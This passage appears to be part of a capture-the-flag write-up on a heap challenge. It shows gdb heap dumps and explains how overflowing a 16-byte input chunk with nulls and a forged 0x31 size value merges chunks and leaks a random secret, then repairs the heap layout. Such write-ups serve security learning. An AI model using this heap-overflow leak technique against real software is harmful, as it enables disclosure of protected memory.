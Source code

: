 ```python
Top chunk | PREV_INUSE
Addr: 0x234d2e0
Size: 0x20d21
```

And a snippet of the chunks:

```python
vis

<SNIP>
0x234d280	0x0000000000000000	0x0000000000000000	................
0x234d290	0x0000000000000000	0x0000000000000021	........!.......
0x234d2a0	0x0000000000000000	0x0000000000000000	................
0x234d2b0	0x0000000000000000	0x0000000000000031	........1.......
0x234d2c0	0x38792607b67d1ca8	0x853dba19534d2a62	..}..&y8b*MS..=.
0x234d2d0	0x6dd625b0b35bbbe5	0x339f2c977abf3e7c	..[..%.m|>.z.,.3
0x234d2e0	0x0000000000000000	0x0000000000020d21	........!....... <-- Top chunk
```

So, we should be setting the size of the chunk `0x234d2b0` to `0x31`

```python
x/32gx 0x234d280
0x234d280:	0x0000000000000000	0x0000000000000000
0x234d290:	0x0000000000000000	0x0000000000000021
0x234d2a0:	0x0000000000000000	0x0000000000000000
0x234d2b0:	0x0000000000000000	0x0000000000000000
0x234d2c0:	0x38792607b67d0011	0x853dba19534d2a62
0x234d2d0:	0x6dd625b0b35bbbe5	0x339f2c977abf3e7c
0x234d2e0:	0x0000000000000000	0x0000000000020d21
0x234d2f0:	0x0000000000000000	0x0000000000000000
0x234d300:	0x0000000000000000	0x0000000000000000
0x234d310:	0x0000000000000000	0x0000000000000000
0x234d320:	0x0000000000000000	0x0000000000000000
0x234d330:	0x0000000000000000	0x0000000000000000
0x234d340:	0x0000000000000000	0x0000000000000000
0x234d350:	0x0000000000000000	0x0000000000000000
0x234d360:	0x0000000000000000	0x0000000000000000
0x234d370:	0x0000000000000000	0x0000000000000000
```

To do that, we supply `0x00 * 24` into the `userinput_chunk` which fills up `0x234d2a0` until we reach the size of the next chunk, where we write `0x31` while being careful to ensure correct padding, e.g. `0x31 + (0x00 * 6)`.

## Solution

TLDR; when we supply 31 bytes into our 16 byte `userinput_chunk`, we merge the chunks so that when our chunk is printed back to us, we also get the random data.

After supplying the secret, we need to repair the heap layout (fix the size of the random data chunk), ready for the next loop.

